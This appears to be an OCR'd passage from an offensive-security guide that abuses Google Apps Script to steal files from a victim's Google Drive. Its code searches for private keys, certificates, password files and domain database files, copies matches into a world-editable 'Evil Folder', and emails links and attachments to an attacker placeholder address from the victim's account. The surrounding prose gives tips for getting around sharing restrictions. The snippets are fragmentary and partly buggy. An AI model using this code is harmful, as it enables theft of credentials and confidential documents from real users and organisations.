 -   Try searching for file name containing .cer, .pem, .der, .crt, .pub, id\_rsa, .docx, .pdf, .vsd, .nessus, .dit, password, etc - Get Creative!

function drivePassSearch() {

  var folder = DriveApp.createFolder('Evil Folder');

  folder.setSharing(DriveApp.Access.ANYONE, DriveApp.Permission.EDIT);

  var files = DriveApp.searchFiles(

     'modifiedDate > "2013-02-28" and title contains "SEARCHTERM"');

 while (files.hasNext()) {

   var file = files.next();

   Logger.log(file.getDownloadUrl());

   Logger.log(file.getUrl());

   Logger.log(file.getName());

   var name = file.getName();

   file.makeCopy(name,folder);

   Logger.log(file.getDownloadUrl());

   Logger.log(file.getUrl());

 }

-   Now we take the data recorded by Logger and send it in an email back to our attacker email address. The message will come from the victim.

  Logger.log(folder.getUrl());

  var recipient = "ATTACKEREMAIL";

  var subject = 'Google Drive Query';

  var body = Logger.getLog();

  MailApp.sendEmail(recipient, subject, body);

-   If the organization has disabled publicly accessible Drive shares then you can use this workaround. Instead of uploading all files to this world-accessible Drive share, you can instead attach the file as a Blob to an email and send it to your attacker email address. 
-   This message will come from the victim user account. 
-   Warning: if your search term finds multiple files, it will send each one in a separate email. There are limits to how many emails a single account can send in a day.

  var file = DriveApp.getFilesByName('SEARCHTERM');

  var fileBlob = file.next().getBlob();

  if (file.hasNext()) {

    MailApp.sendEmail(recipient,'Google Drive search - Attached Files','Attached file matched a search term during Google Drive app script search.',{attachments: \[fileBlob\], name: file.next().getName()})
